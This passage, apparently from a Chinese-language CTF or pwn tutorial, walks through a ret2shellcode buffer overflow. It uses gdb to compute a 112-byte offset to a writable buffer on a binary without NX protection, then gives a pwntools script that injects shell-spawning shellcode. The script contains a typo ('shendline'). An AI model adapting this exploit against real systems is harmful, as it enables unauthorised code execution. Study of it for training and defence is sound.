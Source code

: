    这里的`buf2`地址为`0x0804A080`，而服务器上的`buf2`地址同样位于该地址，并且该题没有启用`NX`保护，因此可以作为攻击点写入`shellcode`

4. 使用`gdb`进行动态调试，计算溢出数据长度，先在`main()`处断点运行，然后步过到`gets()`函数，输入合法长度，并查看栈帧

   > <img src="./img/43.png">
   >
   > 

   这里需要计算一下，因为`ebp`并没有直接显示，图中可以看到绝对偏移值从`19:0064`变化为了`23:008c`，而相对偏移值从`-024`变化为了`+004`，因此可以计算得出`ebp`的绝对偏移值为`0x8c - 0x4 = 0x88`，然后计算从局部变量到`ebp`的长度，即`0x88 - eax(0x1c) = 0x6c`，即108字节，同时不要忘记`ebp`本身的4字节

5. 构造攻击脚本
   经过计算，溢出112字节，返回地址为`0x804A080`

   ```py
   from pwn import *
   
   buf2_addr = 0x804a080
   shellcode = asm(shellcraft.sh())
   payload = shellcode.ljust(112, b'A') + p32(buf2_addr)
   
   io = process('./ret2shellcode')
   io.shendline(payload)
   io.interactive()
   ```

### ret2tack
